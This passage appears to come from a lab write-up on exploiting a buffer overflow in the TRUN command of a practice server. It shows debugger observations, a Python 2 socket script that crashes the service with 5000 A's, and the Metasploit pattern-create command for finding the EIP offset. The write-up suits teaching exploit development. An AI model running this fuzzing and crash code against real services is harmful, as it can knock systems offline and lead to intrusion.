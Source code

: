 We know now that `TRUN` is vulnerable to buffer overflow but we need to find the exact address where the overflow happened this is where Fuzzing comes in


## Fuzzing

Looking at immunity debugger when attempting to crash the program we can see `/.:/` after TRUN command which is then followed by a bunch of A's

<img src="https://i.imgur.com/QUnitwB.png"/>

So we need to supply `/.:/` after TRUN command with the python script to fuzz for the variable to find at how many bytes the variable gets overflown

```python
#!/usr/bin/python

import socket


host = "192.168.1.9"
port = 9999


buffer = "A" * 5000

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host, port))
s.recv(1024)
s.send("TRUN /.:/" + buffer)
s.recv(1024)

print "[+] Buffer sent!"

s.close()
```

After running this with python2 we are going to see the same crash as we saw with generic_tcp_send

<img src="https://i.imgur.com/9tPbore.png"/>

## Finding the Offset

But here's an issue, we don't really know at what point the binary crashed as we have sent a buffer of 5000 bytes as it's difficult to indentify with the A's we are sending which results to `EIP` to be overflow with `414141` which means A's

We can try to generate a random pattern of characters using metasploit's `msf_pattern_create`

```bash
msf-pattern_create -l 5000
```

Here with `-l` we are specfiying the length of the pattern, as we used 5000 bytes to overflow the buffer, we are going to stick with it
